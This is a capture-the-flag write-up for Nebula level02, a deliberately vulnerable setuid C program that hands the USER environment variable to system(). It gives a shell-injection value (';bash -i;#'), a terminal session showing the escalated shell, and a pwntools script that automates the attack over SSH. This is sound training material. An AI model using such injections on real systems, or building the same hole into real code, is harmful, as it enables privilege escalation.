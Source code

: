 # Level02

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source Code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

***

#### Solution

Looking at the source code above it is reading gid and uid of the running process and sets the real, effective, and saved GID/UID to those effective values. In short: it makes all three IDs identical to the current effective IDs. Next it is fetching the `USER` environment variable (Which we can control). After that it calls the shell to run the command. In this example it will run `/bin/echo <USER> is cool`, so the program prints something like `hacker is cool` .

As it is fetching and running USER environment variable, what if USER contains something vulnerable, maybe reverse shell or something like this `USER=';bash -i;#'` .

```bash
level02@nebula:/home/flag02$ export USER=';bash -i;#'
level02@nebula:/home/flag02$ ./flag02
about to call system("/bin/echo ;bash -i;# is cool")

flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    sys.exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level02', password='level02')

# start a remote shell
terminal = session.shell()

# Changing USER environment variable
terminal.sendline("export USER=';bash -i;#'")

# Executing target binary
terminal.sendline('/home/flag02/flag02')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

***

